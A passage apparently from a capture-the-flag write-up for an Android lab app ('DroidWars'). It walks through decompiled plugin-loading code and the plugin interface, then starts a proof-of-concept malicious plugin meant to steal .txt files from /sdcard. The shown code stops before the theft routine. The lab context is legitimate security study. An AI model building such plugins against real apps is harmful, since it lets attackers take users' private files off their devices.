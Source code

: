 ```java
        Function1<? super String, Unit> function16 = this.onLogMessage;
        if (function16 != null) {
            function16.invoke(str5);
            Unit unit = Unit.INSTANCE;
        }
    } catch (Exception e2) {
        String str6 = "Error loading class " + str3 + ": " + e2.getMessage();
        Log.e(TAG, str6, e2);
        Function1<? super String, Unit> function17 = this.onLogMessage;
        if (function17 != null) {
            function17.invoke(str6);
            Unit unit2 = Unit.INSTANCE;
        }
    }
    if (PokemonPlugin.class.isAssignableFrom(loadClass)) {
        String str7 = "Successfully loaded plugin class: " + str3;
        Function1<? super String, Unit> function18 = this.onLogMessage;
        if (function18 != null) {
            function18.invoke(str7);
        }
    }
[...]
[...]
[...]
```

Which is:

- `<pluginName>Plugin`

- `MaliciousPlugin` (will trigger the suspicious code)

- `com.eightksec.droidwars.plugin.<pluginName>Plugin`

Also support **`SimplePlugin`**. Which use a **`Interface`**.
```java
public interface PokemonPlugin {  
    List<String> getAbilities();  
    String getDescription();  
    int getImageResourceId();  
    String getName();  
    Map<String, Integer> getStats();  
    String getType();  
}
```

Let's create the plugin and *steal all the `.txt`* files in `/sdcard`
### PoC

```bash
mkdir src
```

Our plugin (save as `ShadowLegend.java`):
```java
import java.io.*;
import java.util.*;

public class ShadowLegend {
    public ShadowLegend() {
        try {
	        // the txt file (this will trigger the "detection")
            File out = new File("/sdcard/PokeDex/stolen_data.txt");
            if (!out.exists()) new Thread(() -> writeEvidence(out)).start();
        } catch (Throwable ignored) {}
    }

```